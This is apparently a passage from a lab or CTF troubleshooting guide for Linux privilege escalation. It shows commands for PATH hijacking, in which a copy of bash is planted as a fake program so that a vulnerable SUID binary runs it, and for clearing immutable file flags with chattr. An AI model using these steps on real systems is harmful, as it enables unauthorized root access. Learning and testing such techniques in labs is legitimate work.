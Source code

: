 
### **❌ Problem 3: Binary Replacement Doesn't Work**

**What You See:**
```bash
cp /bin/bash replacement_name
./vulnerable_program
# Still running as regular user, no privilege escalation
```

**How to Fix:**
```bash
# Step 1: Verify the replacement is in correct location
ls -la replacement_name
# Ensure file exists and is executable

# Step 2: Check if program uses absolute paths
strings vulnerable_program | grep "/"
# If you see "/usr/bin/program", it uses full path (harder to exploit)

# Step 3: Try different replacement locations
mkdir /tmp/fakedir
cp /bin/bash /tmp/fakedir/program_name
export PATH=/tmp/fakedir:$PATH
./vulnerable_program
# Modify PATH to prioritize our fake directory

# Step 4: Check for other exploitation methods
# Some binaries might be vulnerable to different attacks:
# - Environment variable manipulation
# - Argument injection
# - Symlink attacks
```

**Troubleshooting Checklist:**
- File permissions correct? (executable)
- Right file name? (exact match of called program)
- Correct directory? (where program expects to find it)
- Program actually vulnerable? (double-check strings output)

---

### **❌ Problem 4: Permission Denied When Removing Files**

**What You See:**
```bash
rm original_program
rm: cannot remove 'original_program': Permission denied
```

**How to Fix:**
```bash
# Step 1: Check file attributes
lsattr original_program
# Look for immutable flag (i)

# Step 2: Remove special attributes if present
chattr -i original_program
# Remove immutable flag (if you have permission)

# Step 3: Check directory permissions
ls -la .
# Ensure you can write to current directory

# Step 4: Alternative approach - don't remove, just override
# Instead of removing, create replacement in different location
# and modify PATH or use different exploitation method
```
